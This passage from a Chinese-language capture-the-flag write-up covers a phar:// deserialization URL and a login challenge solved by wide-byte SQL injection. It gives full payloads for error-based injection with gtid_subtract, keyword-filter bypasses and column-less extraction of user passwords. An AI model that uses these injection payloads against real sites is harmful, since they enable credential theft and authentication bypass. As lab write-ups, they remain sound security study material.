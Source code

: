 访问 `http://39.106.138.251:27829/?img_name=phar://./upload/phar.jpg`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209191927157.png)

## 5_easylogin

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209191928594.png)

返回头里有提示, 而且根据单引号被反斜杠转义的结果来看应该是宽字节注入 (当然还有单引号逃逸的思路, 但是这里没成功)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209191929995.png)

```
123%bf%27
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209191931828.png)

有报错显示, 尝试报错注入

连接符用 `^`

常规的 updatexml extractvalue 被过滤了, 找到一个冷门一点的 `gtid_subtract`

测试的时候发现 select union 这些关键字被替换为空, 可以双写绕过

空格被过滤了, 用 `/**/` 绕过

然后 `information_schema` 被过滤了, 因为里面含有 `or` 关键字, 不过 mysql 版本比较高, 可以用 innodb 表或者 sys 表

```
admin%bf%27^((gtid_subtract((selselectect/**/*/**/from(selselectect/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats)a),1)))#
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209191934364.png)

不太好查具体字段, 于是尝试无列名注入

join using 和子查询两种方式都可以

三个列, 其实是 id username password, 用子查询的话查 password 是第三个字段

```
admin%bf%27^((gtid_subtract((selselectect/**/group_concat(`3`)/**/from(selselectect/**/1,2,3/**/ununionion/**/selselectect/**/*/**/from/**/web.user/**/)a),1)))#
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209191937472.png)

然后发现 md5 解不出来...

想了想 union 没被过滤, 可能是用 union 之后的内容替代原来的 password?

sql 语句类似这样

```
select * from users where username='adminxx' union select 1,2,'password'
```

